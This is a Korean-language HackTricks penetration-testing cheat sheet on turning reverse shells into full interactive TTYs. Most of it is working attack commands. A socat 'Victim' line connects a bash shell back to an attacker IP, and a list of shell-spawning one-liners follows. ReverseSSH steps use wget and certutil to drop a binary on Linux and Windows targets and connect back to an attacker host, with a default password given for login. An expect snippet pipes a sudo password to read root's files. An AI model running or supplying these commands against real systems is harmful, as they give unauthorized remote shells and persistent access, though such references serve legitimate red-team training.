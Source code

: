 # Full TTYs

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Full TTY

`SHELL` 변수에 설정한 셸은 **반드시** _**/etc/shells**_에 **목록에 있어야** 하며, 그렇지 않으면 `The value for the SHELL variable was not found in the /etc/shells file This incident has been reported`라는 메시지가 표시됩니다. 또한, 다음 스니펫은 bash에서만 작동합니다. zsh에 있는 경우, `bash`를 실행하여 셸을 얻기 전에 bash로 변경하십시오.

#### Python

{% code overflow="wrap" %}
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

{% hint style="info" %}
**`stty -a`**를 실행하여 **행**과 **열**의 **수**를 확인할 수 있습니다.
{% endhint %}

#### 스크립트

{% code overflow="wrap" %}
```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

#### socat
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
### **쉘 생성**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## ReverseSSH

**대화형 쉘 접근** 및 **파일 전송**과 **포트 포워딩**을 위한 편리한 방법은 정적으로 연결된 ssh 서버 [ReverseSSH](https://github.com/Fahrj/reverse-ssh)를 타겟에 배포하는 것입니다.

아래는 upx로 압축된 바이너리를 사용하는 `x86`의 예입니다. 다른 바이너리에 대해서는 [릴리스 페이지](https://github.com/Fahrj/reverse-ssh/releases/latest/)를 확인하세요.

1. ssh 포트 포워딩 요청을 수신하기 위해 로컬에서 준비합니다:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```
{% endcode %}

* (2a) 리눅스 타겟:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```
{% endcode %}

* (2b) Windows 10 대상 (이전 버전은 [프로젝트 읽기](https://github.com/Fahrj/reverse-ssh#features)를 확인하세요):

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```
{% endcode %}

* ReverseSSH 포트 포워딩 요청이 성공적이었다면, 이제 `reverse-ssh(.exe)`를 실행하는 사용자의 컨텍스트에서 기본 비밀번호 `letmeinbrudipls`로 로그인할 수 있어야 합니다:
```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```
## Penelope

[Penelope](https://github.com/brightio/penelope)는 리눅스 리버스 셸을 자동으로 TTY로 업그레이드하고, 터미널 크기를 처리하며, 모든 것을 기록하고 그 외에도 많은 기능을 제공합니다. 또한 Windows 셸에 대한 readline 지원을 제공합니다.

![penelope](https://github.com/user-attachments/assets/27ab4b3a-780c-4c07-a855-fd80a194c01e)

## No TTY

어떤 이유로 전체 TTY를 얻을 수 없는 경우에도 **여전히 사용자 입력을 기대하는 프로그램과 상호작용할 수 있습니다**. 다음 예제에서는 비밀번호가 `sudo`에 전달되어 파일을 읽습니다:
```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
